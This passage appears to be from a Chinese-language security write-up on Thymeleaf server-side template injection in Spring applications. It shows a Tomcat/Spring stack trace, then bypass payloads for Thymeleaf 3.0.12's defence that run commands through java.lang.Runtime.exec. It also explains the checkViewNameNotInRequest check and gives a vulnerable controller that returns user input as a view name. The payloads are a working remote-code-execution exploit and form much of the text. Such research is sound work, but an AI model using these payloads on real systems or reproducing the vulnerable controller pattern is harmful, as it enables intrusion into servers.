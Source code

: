 ```
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
invoke:197, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:540, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:135, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:357, CoyoteAdapter (org.apache.catalina.connector)
service:382, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:895, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1722, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1191, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:748, Thread (java.lang)
```

在**Thymeleaf3.0.12**版本中进行了防御，但是可以bypass

```java
__${T%20(java.lang.Runtime).getRuntime().exec("calc")}__::.x
```

还需要说明一点。当 path 和返回的视图名⼀样的时候，需要使用**如下poc**

![image](https://user-images.githubusercontent.com/63966847/143764895-5ea0f3b0-c89f-4f87-9974-a254365106a8.png)


```java
;/__${T%20(java.lang.runtime).getruntime().exec("calc")}__::.x
/__${T%20(java.lang.runtime).getruntime().exec("calc")}__::.x
```

原因说下图，在进行**parseExpression**之前做了一个**checkViewNameNotInRequest**操作

![image](https://user-images.githubusercontent.com/63966847/143764903-587e5808-3533-4aee-975f-d61135ed315b.png)



所以在**Thymeleaf3.0.12**版本中直接return 视图名是不会触发的。

```java
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return lang;
}
```
